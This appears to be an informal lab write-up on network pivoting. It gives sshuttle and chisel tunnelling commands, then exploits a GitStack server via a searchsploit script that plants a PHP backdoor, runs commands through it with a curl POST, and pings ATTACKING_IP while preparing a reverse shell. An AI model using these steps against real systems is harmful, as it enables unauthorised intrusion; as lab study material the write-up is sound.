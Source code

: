 LISTEN\_PORT is the port chisel started the server in and LOCAL\_PORT is the port we wish to use to leverage access

<div align="left"><figure><img src="../../.gitbook/assets/image (70).png" alt=""><figcaption></figcaption></figure></div>

#### Sshuttle

Uses an SSH connection to create a tunnelled proxy that acts like a new interface, like a VPN wo explicit proxy creation, also encrypted comms since using ssh

Need ssh access and python installed on rhost

```
sshuttle -r username@address subnet 
sshuttle -r user@172.16.0.5 172.16.0.0/24                    #use -N if don't want to specify subnet
sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET   #use ssh-cmd to use key or perform any standard ssh syntax command
sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5      #use -x to exclude compromised target from subnet range if show error
```

### Git Server

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can access 10.200.84.150 from our own machine w no extra setup crazy, if this wasn't there we would have to setup a proxy using proxychains or sum else

We can acess the http page directly from our browser now and redirects to a gitstacks page which has an exploit found on searchsploit

The python script also creates a PHP backdoor and allows us to pass commands&#x20;

cURL do be better than burp cus you gotta add extra headers to accept POST data

`Content-Type : application/x-www-form-urlencoded`

`curl -X POST http://10.200.84.150/web/exploit-tripz.php -d "a=systeminfo"`

Now, we can have a webshell, let's get a reverse to make it more interactive. From the whoami and other recon we know its a WIndows system so a nc reverse shell aint gonna work like that

To know if this system can interact with the internet, ping our system

```
tcpdump -i tun0 icmp        #CLI Wireshark
ping -n 3 ATTACKING_IP
```
